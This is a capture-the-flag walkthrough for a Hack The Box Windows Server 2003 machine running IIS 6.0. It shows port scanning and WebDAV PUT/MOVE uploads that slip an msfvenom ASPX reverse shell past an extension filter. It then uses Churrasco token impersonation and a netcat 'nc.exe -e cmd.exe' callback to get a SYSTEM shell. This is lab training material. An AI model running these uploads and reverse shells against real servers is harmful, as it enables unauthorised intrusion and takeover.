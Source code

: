 [Done](Done)
## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Exploits Used**:
  - [HTTP](HTTP) WebDAV PUT/MOVE
  - File extension bypass via `.txt → .aspx`
  - Local PrivEsc using `Churrasco.exe`

---

## 🔍 Reconnaissance

### 🔎 Fast Port Scan
```bash
nmap -p- -T5 10.10.10.15
```
Only **port 80 ([HTTP](HTTP))** is open.

### 📌 Service Enumeration
```bash
nmap -p 80 -A 10.10.10.15 -v
```
- **Service**: Microsoft IIS httpd 6.0
- **Extensions**: WebDAV (with support for `PUT`, `MOVE`, `PROPFIND`, etc.)

---

## 🧪 WebDAV Enumeration

### 🛠️ Check WebDAV Methods
```bash
davtest -url http://10.10.10.15
```

Result:
- Can **upload** files (`PUT`)
- Can **rename/move** files (`MOVE`)
- But only `.html` and `.txt` can be **executed**
- **Workaround**: upload `.aspx` as `.txt`, then `MOVE` it back to `.aspx`

[🔗 WebDAV Exploit Reference](https://vk9-sec.com/exploiting-webdav/)

---

## 🚀 Exploitation – Upload Reverse Shell

### 1️⃣ Create ASPX Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f aspx -o shell.aspx
mv shell.aspx shell.txt
```

### 2️⃣ Upload Using [HTTP](HTTP) `PUT`
```bash
curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.txt
```

### 3️⃣ Rename Using [HTTP](HTTP) `MOVE`
```bash
curl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' http://10.10.10.15/shell.txt
```

### 4️⃣ Start Listener
```bash
nc -nvlp 4444
```

### 5️⃣ Trigger Shell
Visit in browser:
```
http://10.10.10.15/shell.aspx
```

---

## 🐚 Shell Gained
```cmd
whoami
nt authority\network service
```

---

## 🚪 Privilege Escalation – SYSTEM

### 1️⃣ System Info
```cmd
systeminfo
```
- OS: **Windows Server 2003**
- Vulnerable to token impersonation (Churrasco)

### 2️⃣ Download Churrasco
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
mv churrasco.exe churrasco.txt
```

### 3️⃣ Upload via [HTTP](HTTP)
```bash
curl -X PUT http://10.10.10.15/churrasco.txt --data-binary @churrasco.txt
```

### 4️⃣ Rename in Shell
```cmd
ren churrasco.txt churrasco.exe
```

### 5️⃣ Upload `nc.exe`
```bash
cp /usr/share/windows-resources/binaries/nc.exe ~/Desktop
mv nc.exe nc.txt
curl -X PUT http://10.10.10.15/nc.txt --data-binary @nc.txt
ren nc.txt nc.exe
```

---

## 💥 SYSTEM Shell

### 1️⃣ Listener
```bash
nc -nvlp 5555
```

### 2️⃣ Execute Reverse Shell
```cmd
churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.13 5555"
```

---

## 🎯 Proof

### 🧍‍♂️ User Flag
```cmd
type C:\Documents and Settings\lakis\Desktop\user.txt
```

### 👑 Root Flag
```cmd
type C:\Documents and Settings\Administrator\Desktop\root.txt
```

---

## ✅ Summary

| Phase              | Method                                         |
|-------------------|------------------------------------------------|
| Recon              | Found IIS 6.0 with [HTTP](HTTP) WebDAV        |
| Initial Access     | Used PUT/MOVE to bypass extension restriction |
| Privilege Escalation | Token impersonation using `Churrasco.exe` |
| Final Access       | SYSTEM shell via netcat                       |

---

Let me know if you’d like this converted into a downloadable Markdown doc or exported for reporting 💾📄